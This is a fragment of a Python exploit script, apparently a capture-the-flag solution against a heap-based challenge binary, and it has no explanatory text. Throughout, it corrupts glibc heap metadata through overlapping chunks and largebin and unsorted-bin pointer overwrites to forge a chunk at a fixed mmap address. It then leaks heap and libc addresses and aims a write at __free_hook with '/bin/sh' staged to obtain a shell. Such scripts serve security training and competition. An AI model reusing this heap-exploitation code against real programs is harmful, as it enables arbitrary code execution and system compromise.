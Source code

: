 ```python
pay = '\x00'*(0x18-0xc)
update(3,len(pay),pay)
add(0xe0-8)#2
#0x650
add(0x420-8)#4 overlap2 in
delete(2)
delete(5)
#0x570
add(0x530-8)#2 overlap2 out

####### gao shi

pay = 'A'*0xd0 + p64(0)+p64(0x421)
pay+='B'*0x410+p64(0x420)+p64(0x31)
update(2,len(pay),pay)
delete(4)# largebin 0x420
add(0x500)#4

pay = 'A'*0xc0 + p64(0)+p64(0x431)
pay+='B'*0x420+p64(0x430)+p64(0x31)
update(1,len(pay),pay)
delete(7)# unsorted bin 0x430

pay = 'A'*0xc0 + p64(0)+p64(0x431)
pay+=p64(0xdeadbeef) + p64(mmap_addr-0x20)
update(1,len(pay),pay)#set unsorted bk

pay = 'A'*0xd0 + p64(0)+p64(0x421)
pay+=p64(0xdeadbeef)+p64(mmap_addr-0x20+8)
pay+=p64(0xdeadbeef)+p64(mmap_addr-0x20-0x18-5)#for fake chunk size
update(2,len(pay),pay)# set largebin bk,bk_nextsize

####### fly to 0x13370800
try:
	add(0x48)#5
except:
	error("bad luck :(")

# set four random num and p chunk1 to mmap_addr
pay = p64(0)*(2+2)+p64(0x13377331)+p64(0)+p64(mmap_addr+0x20)
update(5,len(pay),pay)

#using chunk1 to set chunk2 to leak heap addr on mmap page
pay = p64(mmap_addr+0x20) + p64(0x100) + p64(mmap_addr-0x20+3) + p64(8)
update(0,len(pay),pay)
view(1)
cn.recvuntil('Chunk[1]: ')
heap = u64(cn.recv(8))-0xf0
success('heap: '+hex(heap))

#using chunk1 to set chunk2 to leak libc addr on heap
pay = p64(mmap_addr+0x20) + p64(0x100) + p64(heap+0x100) + p64(8)
update(0,len(pay),pay)
view(1)
cn.recvuntil('Chunk[1]: ')
libc_base = u64(cn.recv(8))-0x3c4b20-88
success('libc_base: '+hex(libc_base))


#using chunk1 to set chunk2 to freehook , set chunk3 to '/bin/sh\x00'
pay = p64(mmap_addr+0x20) + p64(0x100) + p64(libc_base+libc.sym['__free_hook']) + p64(0x100)+p64(libc_base+libc.search('/bin/sh\x00').next())+p64(8)
update(0,len(pay),pay)
```
